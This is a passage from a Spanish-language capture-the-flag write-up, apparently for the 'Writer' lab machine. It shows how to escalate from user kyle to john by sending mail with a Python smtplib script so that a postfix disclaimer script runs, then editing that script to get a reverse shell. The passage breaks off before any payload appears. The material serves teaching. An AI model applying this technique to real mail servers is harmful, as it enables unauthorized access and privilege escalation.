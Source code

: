 > Vemos que el usuario john ejecuta el script /etc/postfix/disclaimer cada vez que manda un correo.

```bash
kyle@writer:/tmp$ cat /etc/postfix/disclaimer_addresses 
```

```ruby
root@writer.htb
kyle@writer.htb
```

> Vemos los correos a los que podemos enviar mensajes.

- Send reverse shell

```python
import smtplib

smtp_server = "127.0.0.1"
port = 25
receiver_email="kyle@writer.htb"
sender_email = "kyle@writer.htb"
message="Test"


try:
    with smtplib.SMTP(smtp_server, port, timeout=10) as server:
        server.sendmail(sender_email, receiver_email, message)
        print("Correo enviado correctamente.")
except Exception as e:
    print(f"Error al enviar el correo: {e}")
```

> Creamos el script en python para mandar un correo a kyle@writer.htb, si todo funciona correctamente el usuario john debería de ejecutar el script /etc/postfix/disclaimer al mandar el correo, por eso podemos modificar el script y mandarnos una reverse shell.

```bash
nano /etc/postfix/disclaimer
```
